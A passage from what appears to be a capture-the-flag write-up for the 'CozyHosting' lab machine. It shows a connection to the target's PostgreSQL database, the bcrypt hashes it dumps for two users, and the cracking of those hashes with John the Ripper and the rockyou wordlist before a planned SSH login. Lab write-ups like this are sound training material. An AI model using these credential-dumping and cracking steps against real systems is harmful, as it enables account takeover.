 
```
psql -h localhost -d cozyhosting -U postgres

-h: the host.
-d: database name.
-U: username
```

after connecting to the database and dumping what we have we get the following: 

```
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

Hashed passwords for users!!!

We will use john to unhash them, like so:

```
john john -wordlist=/usr/share/wordlists/rockyou.txt pass.txt
--wordlist: to specify the wordlist.
```

After that john will be done in seconds and we will use this command to show the password:

```
john --show pass.txt
```


![](../assets/images/cozyhosting/20230906203906.png)

We got the password! 

So now time to log in via ssh!

When we were exploring our machine we found a user with the username josh from the home directories: 

![](../assets/images/cozyhosting/20230906204246.png)


We will log in from our local machine doing so:
